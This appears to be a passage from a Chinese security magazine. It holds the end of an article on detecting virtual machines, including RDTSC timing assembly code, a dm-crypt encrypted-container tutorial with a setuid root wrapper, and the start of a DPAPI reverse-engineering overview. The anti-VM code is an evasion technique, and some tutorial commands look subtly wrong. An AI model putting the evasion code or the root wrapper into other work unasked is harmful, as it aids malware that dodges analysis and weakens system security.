

图 5

## 方法六：基于时间差的检测方式

本方法通过运行一段特定代码，然后比较这段代码在虚拟机和真实主机之中的相对运行时间，以此来判断是否处于虚拟机之中。这段代码我们可以通过 RDTSC 指令来实现，RDTSC 指令是用于将计算机启动以来的 CPU 运行周期数存放到 EDX:EAX 里面，其中 EDX 是高位，而 EAX 是低位。下面我们以 `xchg ecx, eax` 一句指令的运行时间为例，这段指令在我的真实主机 Windows 7 系统上的运行时间为 0000001E，如图 6 所示。



图 6

而该指令在虚拟机 WinXP 下的运行时间为 00000442，如图 7 所示。



图 7

两者之间的运行时间明显差别很多，在虚拟机中的运行速度远不如真实主机的，一般情况下，当它的运行时间大于 0xFF 时，就可以确定它处于虚拟机之中了，因此不难写出检测程序，具体实现代码如下：

```asm
.586p
.model flat, stdcall
option casemap:none
include windows.inc
include kernel32.inc
include user32.inc
includelib kernel32.lib
includelib user32.lib

.data
szTitle db "VMDetect With RDTSC",0h
szInsideVM db "Inside VMware!",0h
szOutsideVM db "Native OS!",0h

.code
start:
    RDTSC
    xchg ecx, eax
    RDTSC
    sub eax, ecx
    cmp eax, 0FFFh
    jg Detected
    invoke MessageBox, 0, offset szOutsideVM, offset szTitle, 0
    ret
Detected:
    invoke MessageBox, 0, offset szInsideVM, offset szTitle, 0
    ret
end start
```

另外之前在看雪论坛上也有朋友提到通过检测硬盘 Model Number 是否会有“vmware”或“virtual”等字样来实现检测虚拟机的功能，网址见（附源码）：http://bbs.pediy.com/showthread.php?t=110046。





测试结果如图 8 所示。

## 方法七：利用虚拟硬件指纹检测虚拟机

利用虚拟硬件指纹也可用于检测虚拟机的存在，比如 VMware 默认的网卡 MAC 地址前缀为“00:05:69”“00:0C:29”或者“00:50:56”，这前三节是由 VMware 分配的唯一标识符 OUI，以供它的虚拟化适配器使用。在我的 VMware WinXP 下的 MAC 地址为 00:0C:29:5B:D7:67，如图 9 所示。

但由于这些可经过修改配置文件来绕过检测。另外，还可通过检测特定的硬件控制器、BIOS、USB 控制器、显卡、网卡等特征字符串进行检测，这些在前面使用注册表检测方法中已有所涉及。

## 总结

国外 SANS 安全组织的研究人员总结出当前各种虚拟机检测手段不外乎以下四类：

- 搜索虚拟环境中的进程、文件系统、注册表；
- 搜索虚拟环境中的内存；
- 搜索虚拟环境中的特定虚拟硬件；
- 搜索虚拟环境中的特定处理器指令和功能。

因为现代计算系统大多是由文件系统、内存、处理器及各种硬件组件构成的，上面提到的四种检测手段均包含了这些因素。纵观前面各种检测方法，也均在此四类当中。除此之外，也有人提出通过网络来检测虚拟机，比如搜索 ICMP 和 TCP 数据通信的时间差异、IP ID 数据包差异以及数据包中的异常头信息等。随着技术研究的深入，相信会有更多的检测手段出现；与此同时，虚拟机厂商也会不断进化它们的产品，以增加 anti-vmware 的难度，这是一场永无休止的无烟战争！

前置知识：Linux  
关键词：Linux、保护文件

# 基于 Linux 2.6 内核的加密容器法保护文件


文／李晨光

在多数情况下，将信息存放在自己的计算机中是最安全的。然而，如果某一天计算机硬件出现了故障，那么可能因此丢失许多的信息，如医疗信息、银行账户、税务记录等。针对这种情形，笔者决定使用一种加密容器机制保护计算机的文件，其功能上类似于任何其他存储设备，但只在有需要时才展示其保护功能。为了防止数据丢失，应该能够备份到自己的计算机中。在家庭计算机中，同样的技术被用来保护备份文件，还能刻录 CD 或 DVD 以实现离线存储。

为了实现数据保护，首先得搞清楚如何创建一个加密容器。创建加密容器有两种方法：一种是使用 cryptoloop 创建；另一种则是使用 cryptoloop 的替代者 dm_crypt 创建。对于使用 cryptoloop 创建，有很多的参考信息，但笔者采用的是更安全的 dm-crypt 内核模块创建加密容器。

为了编译加密容器配置，必须满足以下几个条件：

- 必须安装 Linux 内核版本 2.6.4-rc2 或更高版本；
- 必须安装 KDE 版本 3.3 或更高版本；
- 必须具有 root 权限来实现初始设置。

## 配置系统

为了使用 dm_crypt，必须将相关模块编译到内核中。首先，必须启动设备映射器模块，允许在现有设备分区上创建新的逻辑块设备。然后，该逻辑块设备被“映射”到当做正常驱动分区使用的设备上。一旦启动了设备映射器，随后就可以启动 dm-crypt。dm-crypt 是一个内核模块，用来处理加密/解密。

为了把一个加密容器应用到文件而不是整个驱动器或分区上，还需要在内核中启动 loopback 设备支持。该 loopback 设备内核模块允许使用普通文件，类似于真实的块设备。最后，必须将使用的加密类型编译到内核中或设置为一个模块。在本文中，笔者使用了 AES 加密算法，但也可以选用其他算法。

且启动所需的内核模块，应该编译该内核并安装。笔者没有直接将这些模块构建到内核中，所以把必需的模块 dm-mod、dm-crypt 和 aes-i586 添加到系统的 /etc/modules.autoload/kernel-2.6 目录下，这样可以在启动时自动加载。下面是需要在内核中启动的 4 个内核模块列表：

```
Device Drivers->Multi-Device Support(RAID and LVM)->Device Mapper Support
Device Drivers->Multi-Device Support(RAID and LVM)->Crypt Target Support
Device Drivers->Block Devices->Loopback Device Support
Cryptographic Options-><encryption type>
```

对于其他不能在启动时自动装载内核模块的系统，可以将适当的 modprobe 命令添加到一个启动脚本中。对于基于 Debian 的系统，使用的脚本是 /etc/init.d/bootmisc.sh。对于其他分发包，可以使用 /etc/init.d/rc.local。下面是对于非 Gentoo 分发包推荐的添加到启动脚本中的命令：

```bash
modprobe dm-mod
modprobe dm-crypt
modprobe aes
```

现在，已经配置好内核，接下来安装两个包，将有助于创建该加密容器并作为一个设备使用。需要安装的第一个包是设备映射工具；在 Gentoo 系统上执行 emerge device-mapper。对于基于 Debian 的系统（例如 Ubuntu）可执行 apt-get 安装 libdevmapper。第二个软件包是 cryptsetup 工具，可通过执行 emerge cryptsetup 命令进行安装。

## 创建加密容器

在重启内核之后，就可以为文件创建容器。选择一个具有足够空间的分区创建该容器，并使该容器留下足够的空间用来存储文件。一旦创建了容器，就无法改变容器的大小。因此必须创建一个足够大的驱动器容器，将旧容器中的文件复制到新容器中，然后删除旧的容器。

为了创建该容器文件，可以使用 dd 命令。此处使用了一个特殊设备（当被读取时只输出 0）作为该 dd 命令的一个源。

用了一个分区（/encrypted），这是特地为存储容器而保留的，运行如下命令：

```bash
dd if=/dev/zero of=/encrypted/data.crypt bs=1m count=2048
```

现在，使用容器文件创建一个 loopback 设备。如果使用多个容器，并且需要同时登录，就必须使用一个不同的 /dev/loopX 设备。笔者选择将特定的容器放在脚本中，使用如下命令创建：

```bash
losetup /dev/loop0 /encrypted/data.crypt
```

接下来，创建加密设备。笔者选择使用 AES 加密算法。创建设备时必须指定一个口令（或者密钥），用于加密解密该容器中的文件。使用 /dev/random 生成 32 字符随机串（256 位），临时存放在 /home/pritchey/crypto.key，具体实现如下：

```bash
cat /dev/random > /home/pritchey/foo (hit control-c after a second)
cat /home/pritchey/foo | cut -b 0-31 > /home/pritchey/crypto.key
rm /home/pritchey/foo
cryptsetup -c aes -d /home/pritchey/crypto.key create data.crypt /dev/loop0
```

现在，已经拥有了一个类似于正常的驱动器分区设备。为了登录并使用，必须在其上创建一个文件系统。通常选择 ext3，也可以使用其他文件系统格式。一旦创建该文件系统，就可以作为一个常规驱动器分区使用：

```bash
mke2fs -j /dev/mapper/data.crypt
mkdir /mnt/encrypted
mount /dev/mapper/data.crypt /mnt/encrypted
```

登录后的加密设备类似于一个正常的驱动器分区，可以自由复制、删除和编辑文件等。唯一的区别在于，使用完后需要正确地卸载该设备并删除 loopback 安装：

```bash
umount /mnt/encrypted
cryptsetup remove data.crypt
losetup -d /dev/loop0
```

以后再次存取文件时，只需要以下三个步骤即可：

```bash
losetup /dev/loop0 /encrypted/data.crypt
cryptsetup -d /home/pritchey/crypto.key create data.crypt /dev/loop0
mount /dev/mapper/data.crypt /mnt/encrypted
```

## 自动创建

为了自动登录、卸载加密容器，笔者从网上找到一个很小的用 C 语言编写的程序，可以用来担当一个需要 root 权限的包装器。需要更改该程序要运行的命令，编译该程序并将其通过粘位（sticky bit）复制到指定位置。

为了使用这个包装器，需要在编译之前改变三个值。首先，把变量 myprog 设置为想要执行的脚本名。第二个变量是 myarg1，包含要使用的 loopback 设备（/dev/loopX）名字。最后一个变量是 myarg2，被设置为想要登录的容器名。下面是程序 wrapper.c 的 C 语言部分源代码：

```c
#include <stdio.h>
#include <unistd.h>

const char myprog[] = "/bin/encrypt-mount-gen";
const char myarg1[] = "loop0";
const char myarg2[] = "data";

main() {
    putenv("PATH=/bin:/usr/bin");
    putenv("IFS=\t\n");
    setgid(geteuid());
    seteuid(geteuid());
    execl(myprog, myprog, myarg1, myarg2, (char*)0);
    fprintf(stderr, "Could not execute %s\n", myprog);
    perror("exec");
    exit(1);
}
```

正确修改后，编译该程序，将其复制并确保设置了正确的权限。笔者选择仅对能够登录到加密容器（名称为 crypto）的用户在 /etc/group 下创建一个特定的组。加密设备能够登录目录的许可权和所有权（在上一步中作为 /mnt/encrypted 创建）也用此种方式设置。这可以阻止其他在设计缜密上具有账户的用户登录或存取加密的设备，执行如下命令：

```bash
gcc -o mysecretcommand wrapper.c
cp mysecretcommand /bin
chown root:crypto /bin/mysecretcommand
chmod 750 /bin/mysecretcommand
chmod u+s /bin/mysecretcommand
```

## 备份工作

最后应竭尽最大努力保护文件数据免受损失。上面已经解决了这个问题，至此仅需要一个简单的操作把加密容器集成到备份系统。当其他使用者退出 KDE 时，所有系统被设置为备份用户的 home 目录，这是通过在 .kde/shutdown 中的一个脚本激活的。当用户登录时修改该脚本处理加密容器。这个脚本执行 rsync，并且把任何已改变的文件保存到一个服务器。默认情况是用服务器上的备份位置同步用户的 home 目录，然后，在用户的 shutdown 目录下的脚本被修改，探测是否加密容器已经登录，如果已经登录，则在卸载前执行 rsync。下面是笔者 /home/pritchey/.kde/shutdown 中的脚本：

```bash
#!/bin/bash
is_projects_mounted=`df|grep encrypted_projects`
is_encrypted_mounted=`df|grep encrypted|grep -v projects`
if [ "$is_projects_mounted" != "" ]; then
    /home/pritchey/scripts/backup_rsync.sh /mnt/encrypted_projects
fi
if [ "$is_encrypted_mounted" != "" ]; then
    /home/pritchey/scripts/backup_rsync.sh /mnt/encrypted
fi
# ...
```

通过使用容器，用户可以实现灵活地移动数据，将其备份到 CD 或 DVD 上。在使用加密系统对性能所造成的影响方面，笔者在一年多的使用中并没发现任何性能方面的问题。此外，本文提供的脚本中没有涉及其他安全检查问题，为了实现保护系统，还在系统关闭脚本中包含了用于卸载加密容器的命令。如果一个系统被远程关闭或 UPS 软件关闭，那么加密容器也将被正确而干净地卸载。

前置知识：无

关键词：Windows、逆向、DPAPI

## Windows DPAPI 逆向分析的结果概析

文／CrazyRabbit



从 Windows 2000 开始，微软提供了一个加密程序接口 DPAPI（Data Protection Application Programming Interface）来实现磁盘上敏感数据的安全存储。DPAPI 能够透明地实现数据的加密，并且加密密钥来源于用户密码。众多流行的应用程序，如 Gtalk、Windows Mail、IE 以及一些系统组件，如 EFS（Encrypting File System，加密文件系统）均依赖于 DPAPI 来安全地存储相关数据。然而，只有很少的资料涉及如此重要的 Windows 安全部件。仅有的那些资料也只是介绍了 DPAPI 的公共接口，却没有给出其内部结构，比如文档中仅说存储加密数据的 DPAPI 数据块（BLOB）是一个不透明的数据结构。由于缺少相关的文档再加上 DPAPI 的内部结构十分复杂，对 DPAPI 的逆向工程向来是一个十分具有挑战性的工作，这个工作已经持续了大约 10 年。很多开源项目小组都努力提供完备的 Windows 模拟以及完整的 NTFS 支持。然而，没有一个小组能够全部完成这个工作。2005 年，Wine 项目中的开发者 Kees Cook 在一个头文件中对 DPAPI 描述说：“DPAPI 使用了对称加密，但是具体的实现方法却未知。然后，由于 DPAPI 的密钥与系统和用户相关，因此其值很可能无法进行移植。”尽管很难，但是对 DPAPI 进行逆向分析确实很有必要。首先，DPAPI 被用于加密敏感数据，如果无法完全理解 DPAPI，就无法完全实现 NTFS 文件系统，因为 EFS 私钥无法被解密。进而，像 Wine 之类的模拟器就无法完整地支持 Windows 核心应用，如 IE，因为其无法读取受保护的数据，如密码等。其次，如果无法正确地再现 DPAPI，就无法离线迁移存在于 EFS 中的数据，从而对这些数据进行解密。

离线取证，因为其无法读取 EFS 文件和敏感数据。最后，DPAPI 被很多流行的应用作为黑盒来保护数据，从而使得其安全性值得怀疑。如果无法对 DPAPI 进行逆向工程，就无法保证 DPAPI 的安全性。事实上，正如本文将揭示的，对 DPAPI 本身的审计将导致令人惊奇的结果。

本文中，作者第一次完整地描述了 DPAPI 的逆向工程结果。另外，还介绍了第一个能够离线解密 DPAPI 的工具（http://www.dpapick.com）。其他的相关工具，如 Nir Sofer 等人提供的工具（http://www.nirsoft.net）仅能解密一些特定应用的加密数据。

## 背景

多年来，微软为了增强 Windows 对用户数据保护的能力，已经实现了众多安全机制。如图 1 所描述，Windows 中的关键安全机制与 DPAPI 的交互关系较为复杂，其中 DPAPI 起了中心作用，因为其为加密密钥与用户密码间的连接提供了 API。

- **加密 API**：Windows 加密 API 提供了主要加密算法的实现，如 SHA1、3DES 和 AES。DPAPI 使用该类 API 作为默认加密程序。
- **EFS**：加密文件系统（EFS）在 NTFS 3.0 中被引入，其提供了文件系统层的加密功能。用于解密 EFS 文件的私钥是用 DPAPI 加密后存储到磁盘上的。
- **SAM**：安全账户管理器（Security Accounts Manager, SAM）是 Windows 中的密码库，作为注册表文件存储，同时用户密码使用 LM 或 NTLM 哈希方式存储在其中。
- **BitLocker**：BitLocker 磁盘加密是包含在 Windows Vista、Windows 7 和 Windows Server 2008 等版本中的加密功能，默认使用 128 位 AES，并依赖 TPM 存储密钥。
- **CardSpace**：Windows CardSpace（InfoCard）是微软用于安全存储用户电子标识的工具。



图 1 Windows 中关键安全机制的交互关系

## DPAPI 介绍

本节将概述 DPAPI 的工作原理。作者将详细描述主要的 DPAPI 结构及使用，同时探索 DPAPI 使用的三种不同类型密钥间的关系。另外，本节还展示了如何解密 DPAPI 数据以及不同 Windows 版本中 DPAPI 的不同。

## DPAPI 函数

DPAPI 向应用程序导出的两个主要函数为 CryptProtectData() 和 CryptUnprotectData()。CryptProtectData() 得到输入的数据并进行加密，然后返回一个 DPAPI 数据块；相反，CryptUnprotectData() 解密 DPAPI 数据块并返回数据明文。MSDN 文档将 DPAPI 数据块描述为不透明的受保护数据，因此没有对其具体结构以及数据如何被加密进行解释。

为了理解 DPAPI 做了些什么，我们将查看 DPAPI 导出函数的参数。由于这两个函数十分相似，因此仅讨论 CryptUnprotectData() 的参数。

```c
BOOL WINAPI CryptUnprotectData(
  DATA_BLOB *pDataIn,
  LPCWSTR *ppszDataDescr,
  DATA_BLOB *pOptionalEntropy,
  PVOID pvReserved,
  CRYPTPROTECT_PROMPTSTRUCT *pPromptStruct,
  DWORD dwFlags,
  DATA_BLOB *pDataOut
);
```

pDataIn：指向包含加密数据的数据块指针。  
ppszDataDescr：加密数据描述（可选）。  
pOptionalEntropy：可选熵值，可与数据一并参与推导密钥。  
pvReserved：目前未使用。  
pPromptStruct：用于弹出窗口提示用户输入额外密码。  
dwFlags：标志位。  
pDataOut：指向明文数据块。

仅通过该函数调用可以推导出一点：DPAPI 必须使用用户登录密码来加密数据，因为函数调用并没有让用户输入密码。接下来将研究 DPAPI 如何关联用户登录密码与数据块的复杂过程，以及其数据与解密流程。

## 密钥推导方法

如图 2 所示，DPAPI 关联用户密码和加密数据的方法包含三种不同的密钥：

